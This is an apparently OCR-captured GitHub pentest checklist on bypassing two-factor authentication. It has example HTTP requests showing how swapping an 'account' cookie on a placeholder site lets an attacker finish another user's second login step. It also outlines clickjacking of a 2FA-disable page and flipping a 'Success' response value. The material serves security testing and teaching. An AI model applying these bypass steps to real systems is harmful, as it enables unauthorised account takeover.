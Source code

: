 ## Bypassing Two-Factor Authentication
[ ] Flawed two-factor verification logic
Sometimes flawed logic in two-factor authentication means that after a user has completed the initial login step, the website doesn't adequately verify that the same user is completing the second step
For example, the user logs in with their normal credentials in the first step as follows:

```
POST /login-steps/first HTTP/1.1 
Host: vulnerable-website.com 
... 
username=carlos&password=qwerty
```

They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:

```
HTTP/1.1 200 OK 
Set-Cookie: account=carlos 

GET /login-steps/second HTTP/1.1 
Cookie: account=carlos
```

When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:

```
POST /login-steps/second HTTP/1.1 
Host: vulnerable-website.com 
Cookie: account=carlos 
... 
verification-code=123456`
```

In this case, an attacker could log in using their own credentials but then change the value of the `account` cookie to any arbitrary username when submitting the verification code.

```
POST /login-steps/second HTTP/1.1 
Host: vulnerable-website.com 
Cookie: account=victim-user 
... 
verification-code=123456
```

[ ] Clickjacking on 2FA Disable Feature
```
1. Try to Iframe the page where the application allows a user to disable 2FA
2. If Iframe is successful, try to perform a  social engineering attack to manipulate  victim to fall in your trap.
```

 [ ] Response Manipulation
```
1. Check Response of the 2FA Request.
2. If you Observe "Success":false
3. Change this to "Success":true and see if it bypass the 2FA
```
